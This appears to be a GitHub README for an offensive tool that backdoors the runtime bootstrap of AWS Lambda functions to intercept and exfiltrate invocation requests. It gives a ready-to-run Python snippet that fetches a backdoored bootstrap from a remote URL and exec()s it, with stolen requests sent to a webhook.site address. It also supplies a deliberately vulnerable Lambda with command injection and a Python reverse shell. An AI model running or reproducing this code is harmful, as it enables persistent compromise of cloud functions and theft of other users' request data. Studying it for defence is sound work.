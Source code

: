 # lambda_bootstrap_switcher

This projects is useful to steal request from lambda and is based on:

- https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/
- https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py
- https://github.com/Djkusik/serverless_persistency_poc/blob/master/aws/exploit_files/evil_bootstrap.py
- https://github.com/aws/aws-lambda-python-runtime-interface-client/tree/main/awslambdaric

For more info check: https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence

To perform this attack you need to find a RCE vulnerability inside a Lambda function, one you have taht you can load the malicious bootstrap from this repo executing:

```python
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

Note how it's possible to indicate in the env variable `URL_EXFIL` the URL where you want to receive the exfiltrated requests.


If you want to try it you can create a vulnerable Lambda with a code such as:

```python
import json
import os
def lambda_handler(event, context):
    data = "hello"
    if event["queryStringParameters"].get("cmd"):
        data = os.popen(event["queryStringParameters"]["cmd"]).read()
    
    elif event["queryStringParameters"].get("ip") and event["queryStringParameters"].get("port"):
        rev_shell(event["queryStringParameters"]["ip"], int(event["queryStringParameters"]["port"]))
        data = "called rev shell"
    
    return {
        'statusCode': 200,
        'body': json.dumps(data)
    }

def rev_shell(ip, port):
    import socket
    import subprocess
    import os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,int(port)))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
```
